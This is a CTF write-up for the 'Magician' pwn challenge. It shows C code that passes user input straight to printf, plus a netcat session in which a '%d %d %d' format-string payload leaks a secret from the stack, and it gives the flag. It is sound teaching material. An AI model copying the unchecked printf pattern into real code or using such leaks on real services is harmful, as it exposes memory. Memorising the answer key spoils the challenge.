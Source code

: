 # Magician

## Question Text

Prove to me magicians can read minds.

`pwn.chal.gryphonctf.com:18155`

*Creator - PotatoDrug*

### Hints
1. Format String

## Setup Guide
Run `./build.sh`

## Distribution
- magician
    - SHA1: `f2df378acd2645db86b2d24137a89cb535ed885a`
    - ELF 64-bit LSB executable
- magician.c
    - SHA1: `474085f87582e341762ef61e14a435d48cb76833`
    - Redacted source code for magician

## Solution

```c
fgets(buf, 11, stdin);

strcat(buf, "'s prediction: ");  
puts("I'm thinking of a random number (0 to 1000000), can you tell me what it is?");

srand(time(NULL));
int secretnum = rand() % 1000000;

printf(buf);
```

As we can see from the code above our input is passed to printf directly without format arguments with means it is vulnerable to format string attack.

Since we only have 10 chars to do our format string we can only view the top 3 values on the stack, 1st one is definitely out as it is negative, 2nd and 3rd both seem possible, so try your luck but after 1 try you should realize the 3rd value is the correct one.

```
#nc pwn.chal.gryphonctf.com 18155
Prove to me magicians can read minds!
Before you start, please tell me your name (10 chars max): 
%d %d %d
I'm thinking of a random number (0 to 1000000), can you tell me what it is?
-2021881108 2085 137494
's prediction: 137494
Unbelievable! Here's the flag: GCTF{f0rma7_57rIN9s_l3aK5_y0Ur_M3M0Ry}
```

### Flag
`GCTF{f0rma7_57rIN9s_l3aK5_y0Ur_M3M0Ry}`

## Recommended Reads
* http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
* https://www.tutorialspoint.com/c_standard_library/c_function_printf.htm

